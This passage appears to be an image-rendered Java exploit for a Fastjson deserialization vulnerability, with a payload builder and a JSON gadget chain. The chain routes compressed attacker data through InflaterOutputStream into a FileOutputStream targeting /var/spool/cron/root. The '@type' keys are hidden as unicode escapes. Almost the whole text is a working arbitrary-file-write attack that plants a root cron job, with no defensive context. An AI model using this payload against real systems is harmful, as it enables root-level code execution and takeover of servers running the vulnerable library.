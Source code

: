 ```
        		+ "        \"infl\":\r\n"
        		+ "        {\r\n"
        		+ "            \"input\":\r\n"
        		+ "            {\r\n"
        		+ "                \"array\":\""+code+"\",\r\n"
        		+ "                \"limit\":1999\r\n"
        		+ "            }\r\n"
        		+ "        },\r\n"
        		+ "        \"bufLen\":1048576\r\n"
        		+ "    },\r\n"
        		+ "    \"protocolVersion\":1\r\n"
        		+ "}\r\n"
        		+ "";
        
        System.out.println(payload);
        JSON.parseObject(payload);
    }
    public static String gzcompress(String code) {
    	byte[] data = code.getBytes();
        byte[] output = new byte[0];
        Deflater compresser = new Deflater();
        compresser.reset();
        compresser.setInput(data);
        compresser.finish();
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!compresser.finished()) {
                int i = compresser.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            try {
                bos.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        compresser.end();
        System.out.println(Arrays.toString(output));
        return Base64.getEncoder().encodeToString(output);
    }
```

payload:

```

{
    "\u0040\u0074\u0079\u0070\u0065":"java.lang.AutoCloseable",
    "\u0040\u0074\u0079\u0070\u0065":"sun.rmi.server.MarshalOutputStream",
    "out":
    {
        "\u0040\u0074\u0079\u0070\u0065":"java.util.zip.InflaterOutputStream",
        "out":
        {
           "\u0040\u0074\u0079\u0070\u0065":"java.io.FileOutputStream",
           "file":"/var/spool/cron/root",
           "append":false
        },
```